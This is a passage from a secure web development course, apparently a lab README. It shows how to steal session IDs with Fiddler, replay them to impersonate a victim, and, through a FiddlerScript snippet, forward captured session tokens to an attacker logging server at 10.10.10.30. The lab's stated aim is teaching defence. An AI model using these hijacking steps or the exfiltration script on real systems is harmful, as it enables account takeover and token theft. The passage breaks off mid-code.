 In fact, you've already done the first part of the attack. Fiddler is an HTTP proxy, which is to say a (benign) man in the middle. It's reading the HTTP traffic between client and server. If it was not benign, it might be sending any session IDs it found to (e.g.) an API on the attacker's own site, where they might be decoded and logged. Either way, watch the victim's traffic and extract the session ID (JWT or cookie). In the Jade-Express-MySQL sample use a logged in session for the victim.

The exploits are now trivially simple:

In the MEAN_stack sample, using Fiddler capture a valid response to a post to /api/session. Save it as a file and paste in the session ID, adjusting the content length to the right number as necessary. Now use the AutoResponder tab in Fiddler to have it send back this response rather than going to the server for an /api/sessions post. Put your attacker hat on, fire up a different browser and login, with no user name or password. You are now logged in as the victim. Post offensive messages at will, and turn the AutoResponder off when you're finished.

In the Jade\_Express\_MySQL sample, using the cookie editor extension in a different browser, replace the existing cookie with the one you extracted. You are now logged in as the victim. In fact you actually using the same session on the server in this sample - unlike the MEAN_stack sample, where session state is stored in the browser. This means that if the attacker logs out, the victim is logged out too.

*Dev-specific* You may now be idly considering how to automate this process. But then you'd be writing malware, so don't :-). This course is about how to defend your applications.


Exercise 3: Use Fiddler to find unprotected session IDs
-----
We can do some basic filtering using Fiddler's Filters tab - for instance we can set a filter to flag (highlight) either requests which send the X-Auth header or any 200 status response recevived from api/sessions, meaning the authentication process was successful.

Now put this together to customise Fiddler so it complains if any session ID tokens/cookies are sent over HTTP for either of the samples - you should now have a detailed understanding of exactly what you want to catch on each sample app. This will be the basis of our testing for this module - you will just run the apps with Fiddler capturing HTTP requests and flagging the bad ones.

*Test-specific* There are some rules I cooked up earlier in the resources folder to highlight sensitive data in clear - these are specific to these sample apps, they'll need modifying for your real-world apps. @Devs, write your own ;-)

As a further exercise, we can use the Attacker\_site sample with some additional Fiddler rules. The attacker site is a very simple site which collects and displays on screen any data which is sent to its api/logs endpoint as a query parameter on a GET request. The attacker sets this website up, then sits back and watches your secrets roll in. Let's set it up to intercept the session tokens as they are sent back from the server.

Using FiddlerScript - see [http://docs.telerik.com/fiddler/KnowledgeBase/FiddlerScript/ModifyRequestOrResponse](http://docs.telerik.com/fiddler/KnowledgeBase/FiddlerScript/ModifyRequestOrResponse) for more details:

 1. Open the FiddlerRules files: Click Rules => Customized Rules... (or press Ctrl+R)
 2. Go to the method `static function OnBeforeResponse(oSession: Session)`  - or create one if needed
 3. Type the following to catch any authentication response:
```
    if (oSession.HostnameIs("10.10.10.10") && oSession.uriContains("/api/sessions") && oSession.responseCode == 200){
        var origin = oSession.url;
        var type = "[SESSION]";
        var value = System.Text.Encoding.UTF8.GetString(oSession.responseBodyBytes);
        var queryString = System.String.Format("origin={0}&type={1}&value={2}", origin, type, value);
        Handlers.HTTPGet("http://10.10.10.30/api/logs/add",queryString);
    }
 ```
 4. Add an extra method to allow sending HTTP requests:
```
    public static function HTTPGet(Url:System.String, Data:System.String):System.String
    {
```